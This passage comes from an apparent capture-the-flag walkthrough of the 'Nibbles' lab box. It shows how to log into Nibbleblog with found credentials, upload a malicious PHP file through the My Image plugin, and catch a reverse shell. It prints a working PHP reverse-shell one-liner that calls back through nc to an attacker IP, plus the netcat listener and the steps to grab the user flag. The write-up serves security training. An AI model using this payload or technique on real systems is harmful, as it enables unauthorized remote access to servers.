 =======================================================

For manual exploitation we are going to exploit the same vulnerability used by the metasploit module by uploading a malicious .php file using the credentials from our enumeration: admin : nibbles

First, log back into the nibbleblog dashboard at: http://10.10.10.75/nibbleblog/admin.php

![](/images/nibbles/29. dashboard.png)

Back on the Dashboard of the admin login, we see a “Plugins” section on the left side. Click it.

Under the My Image plugin, click Configure

![](/images/nibbles/30. plugins.png)

Here we can upload a maclicious php file to gain a reverse shell.  We can look-up php one-liners and then create a php file to do what we need. In this case I took a /bin/sh one-liner and added nc execution to call back to my attacking machine, then wrapped it in a php system command. This is not the simplest one-liner you can use here, but it works:

    <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 17011 >/tmp/f"); ?>

![](/images/nibbles/31. php_file.png)

Create a .php file (call-back.php in my case) and put the above code into it. Save it and then use the nibbleblog My Image plugin to upload it: 

Click “Browse” then select the call-back.php file

Click “Save Changes”.  You should see a message stating “Changes have been saved successfully.”

Now we are ready to trigger the php file. Set up your nc listener in a Kali terminal window:

    nc -lvnp 17011

Then navigate to the following: http://10.10.10.75/nibbleblog/content/private/plugins/my_image/

![](/images/nibbles/32. myimage.png)

You will see a folder listing with an “image.php” file. Click on it and your browser may appear to hang, but over in your nc listener window you should see:

![](/images/nibbles/33. nc_connection.png)

Success!  We have a shell.  Now for enum.

    whoami

![](/images/nibbles/34. whoami.png)

So we are user nibbler, let's go to our /home/nibbler folder

    cd /home/nibbler

Here we can grab the user flag:
    cat user.txt

![](/images/nibbles/35. user.png)

